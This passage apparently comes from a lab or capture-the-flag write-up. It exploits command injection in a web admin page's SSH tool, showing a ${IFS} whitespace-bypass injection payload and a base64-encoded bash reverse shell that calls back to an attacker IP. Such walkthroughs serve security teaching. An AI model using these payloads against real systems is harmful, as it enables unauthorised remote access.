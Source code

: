 ## Command Injection

Upon logging in and navigating to the bottom of the admin page, there appears to be some sort of SSH connection tool. 

This looks like command injection, let’s test to verify:

```bash
;ping${IFS}-c4${IFS}<attacker-ip>;#
```

Note: the `${IFS}` acts as the space character. If you try running this command without it you will get the below error after being redirected

```html
GET /admin?error=Username can't contain whitespaces!
```

When we perform a ping, the response is quite delayed, which leads me to believe that the target is vulnerable to command injection

Note: to have concrete evidence of this, you could simply run `tcpdump` or `Wireshark` and filter for incoming ICMP Echo requests.

I then created a reverse shell using [https://www.revshells.com](https://www.revshells.com) and base64 encoded it to help eliminate the white spaces

```bash
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNC80NDQ0IDA+JjE=
```

Now we just need to plug the payload in and URL encode it as shown below

![Untitled](Untitled%206.png)

We’ll send the request and….

We’re in!
